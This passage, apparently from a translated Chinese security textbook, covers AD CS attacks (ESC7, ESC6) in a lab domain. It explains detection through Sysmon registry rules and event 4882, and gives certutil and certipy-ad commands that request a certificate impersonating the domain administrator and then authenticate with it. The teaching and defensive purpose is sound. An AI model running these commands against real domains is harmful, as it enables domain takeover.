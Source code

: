 图 8.35 – 成功的 ESC7 攻击

*Tarlogic*发布了一些引人入胜的研究。研究表明，如果对手拥有**ManageCA**权限，则可以通过上传 Web shell 实现远程代码执行。研究可在此处找到[24]。

为防止 ESC7，审查对 CA 具有敏感安全权限的主体。通过 Sysmon 注册表规则，可以检测到攻击者将设置**EDITF_ATTRIBUTESUBJECTALTNAME2**标志的情况。更改 CA 安全权限会生成事件 ID **4882**，如下所示：

![图 8.36 – khal.drogo 添加了证书管理权限](img/B18964_08_36.jpg)

图 8.36 – khal.drogo 添加了证书管理权限

下一节将演示，过去默认的 CA 配置导致完全接管 AD CS。

## CA 配置错误

现在我们将讨论一个在 2022 年 5 月由 Microsoft 补丁修复的攻击，但您仍可能在旧环境中遇到它。

### ESC6 – EDITF_ATTRIBUTESUBJECTALTNAME2

如果 CA 上设置了**EDITF_ATTRIBUTESUBJECTALTNAME2**标志，任何请求都可以在主题备用名称中定义值。实际上，任何域用户都可以在为域身份验证配置的任何模板中注册，并获取证书，包括域管理员。与 ESC1 的区别在于，帐户信息存储在证书属性中，而不是在证书扩展中。此标志存储在注册表中，可以使用**certutil.exe/certify**从非提升的上下文中验证；但是，如果检查是通过网络进行的，则远程注册表服务应该正在运行：

```
certutil -config "braavos\ESSOS-CA" -getreg "policy\EditFlags"
```

Certify 将检测到此标志并引发问题：

![图 8.37 – 标志已设置](img/B18964_08_37.jpg)

图 8.37 – 标志已设置

利用相对简单。我们请求一个用户证书，其中域管理员作为替代名称：

```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template User -ca 'ESSOS-CA' -upn administrator@essos.local
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```
